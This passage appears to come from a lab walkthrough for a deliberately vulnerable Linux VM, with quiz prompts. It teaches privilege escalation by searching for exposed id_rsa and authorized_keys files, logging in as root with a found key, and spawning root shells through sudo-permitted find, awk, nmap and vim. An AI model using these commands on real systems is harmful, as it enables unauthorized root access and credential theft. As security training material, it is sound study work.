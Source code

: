 `-rw-rw-r--`

## Privilege Escalation - SSH Keys

**Detection**

**Linux VM**

1. In command prompt type: `find / -name authorized_keys 2> /dev/null`
2. In a command prompt type: `find / -name id_rsa 2> /dev/null`
3. Note the results.

**Exploitation**

**Linux VM**

1. Copy the contents of the discovered `id_rsa` file to a file on your attacker VM.

**Attacker VM**

1. In command prompt type: **chmod 400 id_rsa**
2. In command prompt type: **ssh -i id_rsa root@<ip>**

You should now have a root shell :)

---

```
TCM@debian:~$ find / -name authorized_keys 2> /dev/null
TCM@debian:~$ find / -name id_rsa 2> /dev/null
/backups/supersecretkeys/id_rsa
TCM@debian:~$
```

1. What's the full file path of the sensitive file you discovered?

## Privilege Escalation - Sudo (Shell Escaping)

**Detection**

**Linux VM**

1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via sudo.

**Exploitation**

**Linux VM**

In command prompt type any of the following:
1. `sudo find /bin -name nano -exec /bin/sh \;`
2. `sudo awk 'BEGIN {system("/bin/sh")}'`
3. `echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse`
4. `sudo vim -c '!sh'`

---

1. Click 'Completed' once you have successfully elevated the machine

